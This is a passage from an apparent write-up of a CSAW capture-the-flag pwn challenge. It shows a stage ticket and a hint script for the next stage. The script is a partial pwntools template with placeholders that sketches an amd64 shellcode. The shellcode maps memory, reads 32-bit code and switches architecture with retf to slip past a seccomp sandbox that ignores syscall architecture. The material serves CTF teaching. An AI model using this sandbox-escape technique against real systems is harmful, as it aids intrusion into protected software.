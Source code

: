 </table>


Once we send our payload to the server, we are presented with the ticket and also a hint for the next challenge:

````bash
# Stage 2

!(2/4)!

# Ticket
8e7bd9e37e38a85551d969e29b77e1ce

# Hints

```py
from pwn import *
# context.log_level='debug'
debug = 0
if debug:
    p = process("./chal3")
else:
    # p = remote("how2pwn.chal.csaw.io",60003)
    p = remote("0.0.0.0", 60003)
with open("./ticket3",'r') as f:
    ticket = f.read().strip()
p.send(ticket)

# context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
# 1. In this challenge, you can't open a file because of the strict sandbox
# 2. But there is a vul about the sanbox, it doesn't check the syscall arch.
# 3. We can use x86 syscalls to bypass it. All x86 syscalls: https://syscalls32.paolostivanin.com/
# 4. You may find x86 can't visite x64 address because x64 address is too long to be stored in the x86 register. However, we still have syscall_mmap, which could allocate a chunk of memory, for example 0xcafe000, so we can visite this address in x86 mode.
# 5. There is a demo for retf: https://github.com/n132/n132.github.io/blob/master/code/GoogleCTF/S2/XxX/pwn.S


context.arch = 'amd64'

shellcode = f'''
xor rax,rax
mov al, {syscall num of mmap}
mov rdi,{4-byte-address}
mov rsi,0x2000
mov rdx,0x7
mov r10,0x21
xor r8,r8
xor r9,r9
syscall

xor rdi,rdi
mov rsi,{ address of memory where you want to put your x86 shellcode }
mov rdx,0x1000
{ set rax to call sys_read }
syscall

{ return to x86, *Hint 5* }
'''

# gdb.attach(p)
shellcode = asm(shellcode)+b'\xcb'# \xcb is retf
print("[+] len of shellcode: "+str(len(shellcode)))
````